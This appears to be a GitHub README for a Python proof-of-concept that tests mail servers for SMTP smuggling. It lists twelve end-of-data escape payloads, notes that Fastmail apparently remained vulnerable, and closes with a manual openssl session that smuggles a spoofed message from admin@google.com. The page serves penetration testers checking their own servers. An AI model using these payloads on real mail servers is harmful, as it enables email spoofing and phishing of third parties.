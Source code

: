 # smtp_smuggling_checker.py
#### smtp smuggling testing / scanning tool with tls / starttls support.
#### Tests 12 different end-of-data sequences in one run for pentest your mailservers

### Infos:
> [!NOTE]
https://www.postfix.org/smtp-smuggling.html
> 
> https://sec-consult.com/blog/detail/smtp-smuggling-spoofing-e-mails-worldwide/

<hr>

## How to use:

```python
       _____  __  ___ ______ ____     _____                                  __               ____   ____   ______
      / ___/ /  |/  //_  __// __ \   / ___/ ____ ___   __  __ ____ _ ____ _ / /___   _____   / __ \ / __ \ / ____/
      \__ \ / /|_/ /  / /  / /_/ /   \__ \ / __ `__ \ / / / // __ `// __ `// // _ \ / ___/  / /_/ // / / // /     
     ___/ // /  / /  / /  / ____/   ___/ // / / / / // /_/ // /_/ // /_/ // //  __// /     / ____// /_/ // /___   
    /____//_/  /_/  /_/  /_/       /____//_/ /_/ /_/ \__,_/ \__, / \__, //_/ \___//_/     /_/     \____/ \____/   
                                                           /____/ /____/                                          
    
    SMTP Smuggle PoC Script v0.1 for checking mailservers - 2024 - by suuhmer

    
usage: smtp_poc.py [-h] [--server SERVER] [--port PORT] [--user USER] [--rcpt RCPT] [--mode MODE] [--forcetls]

Test you mailserver for SMTP Smuggle /w STARTTLS und AUTH PLAIN login.

options:
  -h, --help       show this help message and exit
  --server SERVER  SMTP-(Servername, Domain or IP
  --port PORT      SMTP-Serverport (Use 5870000 for 587 NOSSL-FALLBACK)
  --user USER      SMTP-userername
  --rcpt RCPT      rcpt address
  --mode MODE      Rawmode = raw or Default = def
  --forcetls       Force connection via SSL/TLS

```


#### Run the script like this:

```bash
# Example : You have to setup the Parameters with the right values!

# Sending via extern SMTP server with STARTTLS support and PLAIN AUTH login (The asking for password will prompt!):
.\smtp_smuggler_poc.py --server mail.server.com --port 587 --user user@yourserver.com --rcpt vic@yourserver.com --mode def --forcetls

# Sending via local SMTP server with STARTTLS forced on port 25 and default login credential in RAW sending mode (telnet socket mode):
.\smtp_smuggler_poc.py --server localhost --port 25 --rcpt vic@yourserver.com --mode raw --forcetls
```

<hr>

> [!NOTE]
> ### Beware this is alpha POC !! tested with postfix and python3
>
> 
<hr>

![grafik](https://github.com/suuhm/smtp_smuggling_checker.py/assets/11504990/4891d7ef-ecb8-4428-9e01-345eb236b528)


### Testing of postfix mailserver for example (localhost port 25 auth plain login (optional)):
![grafik](https://github.com/suuhm/smtp_smuggling_checker.py/assets/11504990/f46c47ed-8cd7-4395-9d2e-12589a505e21)

### Extern login via TLS and PLAIN AUTH with getting MX servers

![grafik](https://github.com/suuhm/smtp_smuggling_checker.py/assets/11504990/7c182b91-4795-47da-8454-6bcd278f8d93)


<hr>

### Testing these 12 payload strings:
#### Smugggling Strings (0-11):

- 0 - smtp_smuggle_escape = '\r\n.\r'
- 1 - smtp_smuggle_escape = '\r.\r'
- 2 - smtp_smuggle_escape = '\r\n\x00.\r'
- 3 - smtp_smuggle_escape = '\r\n\x00.\n'
- 4 - smtp_smuggle_escape = \r\n\x00.\r\n
- 5 - smtp_smuggle_escape = \r\n.\x00\r\n
- 6 - smtp_smuggle_escape = '\r\n.'
- 7 - smtp_smuggle_escape = \n.\r\n
- 8 - smtp_smuggle_escape = \r.\r\n
- 9 - smtp_smuggle_escape = \n\n.\r\n
- 10 - smtp_smuggle_escape = \r\n.\r
- 11 - smtp_smuggle_escape = \n.\n

<hr>

## PoC fastmail still works

By sending over my postfix server fastmail seems to be still vulnerable: (NULL Bytes: 09.01.2024)

![grafik](https://github.com/suuhm/smtp_smuggling_checker.py/assets/11504990/f7b011e1-abea-4f02-bc44-059371e76d77)


<hr>

### Using telnet / openssl client for TLS

```bash
# Get base64 auth String:
# echo -n -e "\000info@myserver.com\000MYPASSWORD" | base64
#

openssl s_client -starttls smtp -crlf -connect mail.myserver.com:587 -tls1_2

EHLO myserver.com

AUTH PLAIN <YOU_BASE_64_STRING>

mail From: info@myserver.com

rcpt To: test@google.de

DATA
354 End data with <CR><LF>.<CR><LF>
From: test <it@google.de>
To: bla <jadu@foo.de>
Subject: Test1
bodyy Test1
<CR><LF>.<CR>
mail From: admin@google.com
rcpt To: jadu@foo.de
data
From: hallo admin <it@google.de>
To: gege <jadu@aniwe.de>
Subject: hallooooo
bodyyhacked
<CR><LF>.<CR><LF>
```

